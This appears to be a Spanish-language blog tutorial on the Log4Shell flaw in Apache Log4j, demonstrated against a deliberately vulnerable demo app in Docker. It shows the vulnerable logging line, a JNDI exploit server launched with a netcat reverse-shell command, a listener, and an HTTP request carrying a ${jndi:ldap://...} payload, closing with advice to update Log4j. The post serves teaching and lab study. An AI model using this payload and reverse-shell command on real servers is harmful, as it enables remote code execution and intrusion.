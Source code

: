 ```yaml
---
title: "Acerca de log4shell"
date: 2025-06-07T10:30:00-06:00
draft: false
tags: ["Java","Backend"]
image: /images/ace1c5899b23dc855876d6112b119c70a086b6c3696d7c36e5b5fc90300c8635d746d5c23d88c1bf4f2097b42602334d82ed4d42026256a53e82f48f2908e1d0.png
categories:
    - Linux
    - Java
---
```


log4shell es una falla en Apache Log4j que permite que atacantes puedan ejecutar comandos maliciosos desde servidores LDAP maliciosos, esta vulnerabilidad en sus principios fue un 0 day y debido a que log4j  se encuentra en muchas aplicaciones como minecraft, Struts2, Flink entre otros su impacto ha sido muy grande.

### Como Funciona?
 
Para esta vulnerabilidad en forma de prueba de concepto existe en github una aplicación vulnerable [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) 

```
git clone https://github.com/christophetd/log4shell-vulnerable-app.git
docker run --name vulnerable-log4 -p 8081:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

![Name](/images/1d851fb4f2c85bf3e0498b263832fa16012931205a239a371f42cefc5ec6ca576036b9915ebd7849c48426f3c069cdcbb5b54bf2455dc724602eaca20ae1eb6c.png)


una vez descargado vamos analizar el código para ver en qué forma puede ser vulnerable 

![Name](/images/ace1c5899b23dc855876d6112b119c70a086b6c3696d7c36e5b5fc90300c8635d746d5c23d88c1bf4f2097b42602334d82ed4d42026256a53e82f48f2908e1d0.png)

La parte que nos interesa es: 

```java
    @GetMapping("/")
    public String index(@RequestHeader("X-Api-Version") String apiVersion) {
        logger.info("Received a request for API version " + apiVersion);
        return "Hello, world!";
    }

```
Y en especial esta ya que es la parte vulnerable : 

```java

logger.info("Received a request for API version " + apiVersion);
```

después vamos a necesitar un servidor LDAP que nos permita ejecutar los comandos  [https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)  


```
java -jar JNDI-Injection-1.0-SNAPSHOT-all.jar -C "nc 172.17.0.1 4444 -e /bin/sh" 
nc -lvp 4444
```

![Name](/images/8b704fcf71dbb7ed35fde12e48b6702579dcea428aba4300bca4b2b8121304bec29426740971334b5fd1d2f67a0556bbd8e2256f623cffd925fceba73caaefed.png)

Solo hacemos un http request con el header X-Api-Version y con la dirección que nos proporcionó JNDI Injection


``` http 
GET / HTTP/1.1
Host: 192.168.1.141:8081
X-Api-Version: ${jndi:ldap://172.17.0.1:1389/zlrpms} 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```



![Name](/images/d95ee3cf726654238c8d22e1bd33dc9ef77e30f140abd9200f28397d0bd713247747c1f2aa70d503c237969780ceac41b9e8311108044fc84c960710c28433f4.png)


![Name](/images/40068b8357a248e64f7103c590e433798614cc565f55a3d07a81a5ef5dbc868bac37cb6cc696f2495e53719253fe2ed82070cfa31e6b09ae7e8ada788d881be5.png)


debido a que la vulnerabilidad ya se encuentra arreglada en las nuevas versiones de Log4j  solo queda actualizar 




